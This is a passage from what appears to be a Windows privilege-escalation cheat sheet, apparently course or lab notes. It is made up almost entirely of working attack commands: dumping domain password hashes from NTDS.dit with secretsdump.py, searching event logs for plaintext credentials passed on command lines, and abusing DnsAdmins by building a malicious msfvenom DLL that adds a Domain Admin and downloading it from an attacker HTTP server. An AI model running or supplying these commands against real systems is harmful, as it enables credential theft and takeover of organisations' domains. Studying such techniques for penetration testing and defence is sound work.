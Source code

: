     ```sh
    # extracting hashes from NTDS.dit using secretsdump.py
    # on attacker
    secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
    ```

* Event Log Readers:

    ```sh
    net localgroup "Event Log Readers"
    # confirm group membership

    # passing creds to wevtutil
    wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
    ```

    ```ps
    # search security logs using wevtutil tool
    wevtutil qe Security /rd:true /f:text | Select-String "/user"

    # searching security logs using Get-WinEvent
    Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
    ```

* DnsAdmins:

    * [Leveraging DnsAdmins Access](https://adsecurity.org/?p=4064):

        ```sh
        # on attacker machine
        # generate malicious DLL
        msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

        # start HTTP server
        python3 -m http.server 7777
        ```

        ```ps
        # on target
        # download the DLL
        wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
